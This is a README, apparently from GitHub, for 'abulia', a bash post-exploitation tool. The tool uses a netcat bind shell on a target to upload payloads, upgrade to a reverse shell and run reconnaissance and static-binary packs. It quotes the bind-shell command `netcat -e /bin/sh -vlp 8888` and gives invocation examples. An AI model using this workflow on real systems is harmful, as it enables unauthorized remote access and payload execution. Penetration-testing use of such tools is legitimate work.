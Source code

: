 # ![Abulia](https://i.imgur.com/ol7voNf.png)
abulia is a bash-script that aims to assist exploitation of netcat-based
remote code execution.

abulia requires:
- netcat to be installed on both the host and target system; the target system's netcat implementation will need to support the `-e` flag.
- read-write access on the current directory on the remote system
- the target system to be executing `netcat -e /bin/sh -vlp 8888`; this will have to be done by utilising a different exploit. (any port may be used; `8888` is used as an example here.)

## Usage
### Regular Invocation
The simplest way to invoke abulia is:
```bash
./abulia 192.0.2.0 8888
```
abulia will attempt to connect to the given host before:
- copying over `payloads/abuliarc` to `$PWD/.abulia/abuliarc` on the host system over port 8889
- open an additional netcat instance on the host system in order to connect over port 8890
- performs a reverse shell upgrade over the newly established netcat connection; this instance then sources the `abuliarc` on the host system.

### Invoke Payloads
Any additional options on the command line will be interpreted as payloads:
```bash
./abulia 192.0.2.0 8888 whoami binpack/binpack-x86_64 +binmake
```
This will:
- transfer `payloads/whoami` to `$PWD/.abulia/whoami` on the remote system
- transfer `payloads/binpack/binpack-x86_64` to `$PWD/.abulia/binpack-x86_64` on the remote system
- transfer `payloads/binmake` to `$PWD/.abulia/binmake` on the remote system **and then execute it**.
This should provide a pretty clear overview of how payloads work.
*At the moment, abulia only searches for payloads relative to the `payloads/`
directory; this has yet to be fixed.*

**Notice:** abulia uploads payloads in chronological order from left to
right; if payload B depends on payload A, then `./abulia 192.0.2.0 8888 +B A` will produce erroneous results.

abulia uses `dd` and `netcat` for file transmission, and can handle payloads of arbitrary size (including 200MiB+ wordlists).

## Payload Overview
### understand
the `understand` payload shows a fancy header displaying information such as disk usage, `uname`, SSH configuration, etc.

TODO:
- display more useful information such as:
- systemctl output;
- autodetect users and groups on the system;
- autodetect security features such as `hidepid` and non-readable `/var/log` files;

### binmake + binpack
The `binpack` files found in `payloads/binpack/` are `.tar.xz` files
containing precompiled static binaries for x86_64, x86 and ARM architecture
GNU/Linux operating systems. They were stolen from [https://github.com/andrew-d/static-binaries/](andrew-d/static-binaries).

`binmake` depends on one or more of each `binpack-$ARCH` to have been transferred to the target system.
`binmake` will create a new subdirectory `$PWD/.abulia/binpack-$ARCH` before unpacking the statically linked binaries found in the pack.
It will then modify the `$PATH` variable in `$PWD/.abulia/abuliarc`.

## Todo
abulia has several issues that need to be fixed:
- abulia does not yet support other ways of attaining a reverse shell (nmap, lua, irb, etc.)- it currently relies on `python` and `pty`.
- abulia does not yet support other ways of initiating connections other than netcat; no support for `socat` or gnu/awk+network-based shelling.
- abulia produces one or two lines of garbage on the screen when achieving a reverse shell; this has yet to be fixed.
- abulia relies on some ugly hacks and `timing` to keep working; this is ugly and should ideally be fixed.
- exiting the abulia shell renders your terminal garbage, requiring you to close it.
